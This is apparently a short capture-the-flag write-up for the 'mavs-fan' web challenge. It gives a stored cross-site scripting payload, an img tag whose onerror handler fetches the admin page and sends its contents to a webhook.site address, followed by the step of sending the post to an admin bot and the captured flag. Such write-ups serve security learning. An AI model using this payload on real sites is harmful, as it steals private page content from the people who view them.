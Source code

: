 # mavs-fan [263 points] (251 solves)
Post message:
```
<img src="x" onerror='fetch("https://mavs-fan.chall.lac.tf/admin").then(r=>r.text()).then(b=>fetch("https://webhook.site/a2ef4808-c5c5-4817-afb8-bb06cafe5fed?msg=" + encodeURIComponent(b)))';>
```
Then, send the post link to admin bot, get the flag in your `webhook.site`.

flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`
